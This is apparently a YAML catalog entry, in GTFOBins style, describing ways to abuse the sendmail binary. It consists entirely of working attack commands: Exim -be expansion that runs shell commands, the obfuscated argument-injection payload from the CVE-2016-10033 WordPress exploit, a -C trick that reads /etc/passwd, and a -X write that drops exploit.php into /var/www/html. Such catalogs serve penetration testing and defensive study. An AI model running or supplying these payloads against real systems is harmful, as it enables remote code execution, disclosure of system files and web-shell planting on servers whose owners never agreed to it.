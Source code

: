 ```yaml
---
description: sendmail differs between systems, depending on whether it is postfix, exim, or otherwise, which provides the binary.
functions:
  command:
    - description: The -be flag can be used to execute system commands, when sendmail is provided by Exim4. 
      code: |
        sendmail -be '${run{/bin/sh -c "uname -a"}{yes}{no}}'
    - description: See [\"PoC HTTP request / minimal PoC exploit\"](https://exploitbox.io/vuln/WordPress-Exploit-4-6-RCE-CODE-EXEC-CVE-2016-10033.html) for more information about this exploit. This example runs `uname -a`.
      code: |
        sendmail -t -i -f 'email@address.com(tmp1' -be '${run{${substr{0}{1}{$spool_directory}}usr${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}uname${substr{10}{1}{$tod_log}}-a$}}' 'tmp2)'
  file-upload:
    - description: Arbitrary files can be delivered.
      code: |
        sendmail -t -i -f mail@address.com -C/etc/passwd -X/dev/null < mail.txt
  file-write:
    - description: Arbitrary local files can be written to a new location. It is worthy of playing around with the ability to upload files/the contents of the mail being sent.
      code: |
        sendmail -t -i -f mail@address.com -X/var/www/html/exploit.php < mail.txt
---
```

